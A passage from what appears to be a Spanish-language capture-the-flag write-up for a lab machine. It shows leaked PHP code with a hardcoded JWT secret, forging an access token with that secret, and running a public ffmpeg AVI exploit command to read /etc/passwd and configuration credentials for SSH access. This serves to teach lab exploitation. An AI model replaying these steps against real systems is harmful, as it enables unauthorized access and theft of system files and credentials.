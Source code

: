 ```php
		header("Location: index.html");
	}
}
else
{
	$token_payload = [
	  'project' => 'PlayBuff',
	  'access_code' => 'C0B137FE2D792459F26FF763CCE44574A5B5AB03'
	];
	$key = '_S0_R@nd0m_P@ss_';
	$jwt = JWT::encode($token_payload, base64_decode(strtr($key, '-_', '+/')), 'HS256');
	$cookiename = 'access';
	setcookie('access',$jwt, time() + (86400 * 30), "/");
	header("Location: index.html");
}
?>
```


#### Forge JWT  
Con el **Secret** vamos a crear un token nuevo que cumpla con las espeficiaciones requeridas:
![[Pasted image 20230814172937.png]]

Como resultado, nos da el siguiente **JWT** `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE`
el cual colocaremos como nuevo en las cookies:
![[Pasted image 20230814173024.png]]

Ahora, al volver a visitar `launcher/dee8dc8a47256c64630d803a4c40786c.php?` vemos que nos redirecciona a `launcher/7F2dcsSdZo6nj3SNMTQ1/`  

#### Abusing ffmpeg AVI Exploit in order to read internal files
Vemos que se trata de un sitio donde podemos subir archivos con formato **.avi** los cuales corresponden a formatos de video. Buscando por algunas vulnerabilidades en google, encontramos el siguiente [exploit](https://github.com/neex/ffmpeg-avi-m3u-xbin) el cual nos permite leer archivos de forma remota en el servidor:
```
# python3 gen_xbin_avi.py file://etc/passwd passwd.avi
```

Lo subimos, los descargamos y en el video, podemos ver el **/etc/passwd**:

![[Pasted image 20230814174217.png]]

Si listamos el archivo que vimos anteriormente (el array en **PHP**) que contiene configuraciones, podemos ver las siguientes credenciales:
![[Pasted image 20230814184453.png]]

Estas, nos sirven para conectarnos por **SSH** en el puerto **6686**
